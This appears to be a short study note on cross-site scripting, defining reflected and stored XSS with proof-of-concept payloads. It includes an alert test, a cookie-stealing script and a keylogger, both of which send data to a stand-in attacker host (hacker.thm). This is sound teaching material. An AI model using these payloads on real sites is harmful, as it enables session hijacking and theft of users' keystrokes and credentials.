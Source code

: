 ![](Pasted%20image%2020241112155322.png)

# Introduction

In XSS attacker injects malicious JavaScript code in a vulnerable web server. There are two types of XSS.

- Reflected XSS
- Stored XSS

## Reflected  XSS

In this scenario, attacker sends the payload to via URL and response is reflected back. 

![](Pasted%20image%2020241112181518.png)

# POC

### General usage

After putting JavaScript code to web page's input field if the page reacts as per the code then the web page is vulnerable to XSS

```
<script>alert('XSS');</script>
```

### Session stealing

Most users details are stored in the form of cookies. This can be accessed by document.cookie. btoa function convert parameter to base64 and fetch function generating request to attackers webserver, giving access to users cookies when they visit infected page.

```
<script>fetch('https://hacker.thm/steal?cookie=' + btoa(document.cookie));</script>
```

### Key Logger:

Below is similar version of JS code that sends base64 to attacker of the key - on key press.

```
<script>document.onkeypress = function(e) { fetch('https://hacker.thm/log?key=' + btoa(e.key) );}</script>
```

